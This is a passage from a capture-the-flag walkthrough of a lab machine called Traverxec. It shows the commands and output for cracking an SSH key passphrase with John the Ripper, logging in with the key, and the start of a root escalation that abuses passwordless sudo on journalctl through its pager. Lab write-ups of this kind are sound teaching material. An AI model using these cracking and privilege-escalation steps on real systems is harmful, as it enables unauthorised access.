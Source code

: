 ```bash
$ ssh2john.py david_id_rsa > ssh2john.david_id_rsa
$ john ssh2john.david_id_rsa -w=~/tools/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (david_id_rsa)
1g 0:00:00:04 DONE (2020-04-07 08:58) 0.2004g/s 2874Kp/s 2874Kc/s 2874KC/s *7¡Vamos!..clarus
Session completed
```

The cracked password is `hunter`. Let's try to use this key to `ssh` into the machine.

```bash
$ chmod 700 david_id_rsa
$ ssh david@10.10.10.165 -i david_id_rsa
Enter passphrase for key 'david_id_rsa': # hunter
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Tue Apr  7 01:01:28 2020 from 10.10.14.15
david@traverxec:~$ wc user.txt
 1  1 33 user.txt
```

And there is our user proof.

### Root Privilege Escalation

There's a peculiar shell script in `/home/david/bin/server-stats.sh`.

```bash
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Running this script does **not** prompt us for a sudo password. This is a fantastic sign. I checked out the `journalctl` page on [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/) and found that `journalctl` invokes the default pager, which is normally `less`. We can see that `less` has root privileges with: 

```bash
david@traverxec:~/bin$ ls -l `which less`
-rwxr-xr-x 1 root root 166664 May  7  2018 /usr/bin/less
```
